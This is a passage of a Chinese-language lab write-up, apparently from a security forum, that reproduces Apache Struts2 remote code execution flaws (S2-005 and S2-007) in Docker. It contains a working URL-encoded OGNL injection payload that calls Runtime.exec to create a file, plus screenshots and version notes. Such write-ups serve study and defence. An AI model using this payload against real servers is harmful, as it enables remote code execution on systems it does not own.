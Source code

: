 ##### 构建poc，在tmp目录下创建一个success文件

```php
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&amp;(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&amp;(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```

![image-20210708145030165](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cbef190eb288eefe661187eb89f0414505b4ef62.png)

![image-20210708152324774](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b2b4267ff3611432cc5b7ee71914c03b1987aed3.png)

##### 这里我找了半天success文件，发现tmp目录下没有，后面经yb妹妹提醒才知道，是在docker底层目录中，是我菜鸡了。

#### 执行命令

![image-20210708162106652](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bec5a16351b1f4bca61c7306d2576c238b81e4b7.png)

![image-20210708162136530](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-09d689544febdec52a529fc3a372171c7a155f5d.png)

### 4.3 S2-007远程代码执行漏洞

#### 漏洞原理

##### age来自于用户输入，传递一个非整数给id导致错误，struts会将用户的输入当作ongl表达式执行，从而导致了漏洞。

#### 影响版本

```php
2.0.0 - 2.2.3
```

#### 启动漏洞

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-27af9a8841b08c76807866c2de8b7d83e05359a2.png)

##### 访问页面

![image-20210708163733316](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-65b344e53156d253be069d292eeb04b99f19bd55.png)

![image-20210708163520607](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5ac727584e35850c69b1eb54e9c229bc3cd1a7cb.png)

##### 这里如果访问不了的话，可以在这里清理一下缓存，即可成功访问

##### 谷歌和火狐的分别如下操作

![image-20210708163646768](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2bcc32475a5eb44926a8b49e74805dede5bff998.png)

![image-20210708163448471](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-71b32cbc3daceee5928e8813f68eb4becb6848d7.png)
